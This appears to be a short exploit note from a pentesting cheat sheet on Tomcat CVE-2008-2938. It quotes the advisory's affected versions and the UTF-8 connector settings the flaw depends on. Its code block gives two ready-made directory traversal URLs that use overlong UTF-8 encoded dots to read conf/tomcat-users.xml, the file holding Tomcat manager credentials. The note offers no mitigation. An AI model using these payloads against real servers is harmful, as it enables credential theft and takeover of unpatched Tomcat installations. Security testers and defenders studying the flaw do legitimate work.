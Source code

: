 ## Vulnerable

> Versions Affected: (with java below 1.5.17)
> Tomcat 4.1.0 to 4.1.37
> Tomcat 5.5.0 to 5.5.26
> Tomcat 6.0.0 to 6.0.16

> Further investigation of CVE-2008-2938 has shown that the vulnerability also exists only with URIEncoding="UTF-8" set on the connector. In these configurations arbitrary files in the docBase for an application, including files such as web.xml, may be disclosed. Users should also be aware that this vulnerability will apply when processing requests with UTF-8 body encoding and useBodyEncodingForURI="true"



```sh
# if we are in manager or in a webapp
http://localhost:8080/%c0%ae%c0%ae/%c0%ae%c0%ae/conf/tomcat-users.xml
# if we don´t know where we are
http://localhost:8080/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/usr/local/tomcat/conf/tomcat-users.xml
```